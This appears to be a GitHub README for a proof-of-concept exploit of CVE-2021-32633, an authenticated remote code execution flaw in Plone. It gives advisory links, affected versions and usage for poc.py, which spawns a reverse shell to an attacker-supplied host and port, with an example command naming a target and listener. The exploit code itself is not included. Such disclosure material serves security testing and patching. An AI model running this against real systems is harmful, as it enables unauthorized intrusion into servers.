# CVE-2021-32633

Title: [Authenticated] Remote Code Execution via traversal in TAL expressions  
Writeup: https://cyllective.com/blog/post/plone-authenticated-rce-cve-2021-32633/  
Advisory: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-32633
Plone Hotfix: https://plone.org/security/hotfix/20210518  
Affected versions: `< 5.2, < 4.6`  
Patched versions: `5.2, 4.6`  


## Usage

This PoC will spawn a reverse shell back to `-H`:`-P`.

```
usage: poc.py [-h] -t TARGET -u USERNAME -p PASSWORD -H HOST -P PORT

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
  -u USERNAME, --username USERNAME
  -p PASSWORD, --password PASSWORD
  -H HOST, --host HOST
  -P PORT, --port PORT
```


```
python3 poc.py -t '<target host>/<plone site name>' -u username -p password -H <src host> -P <src port>

python3 poc.py -t http://127.0.0.1/Plone -u username -p password -H 10.0.0.1 -P 9999
```
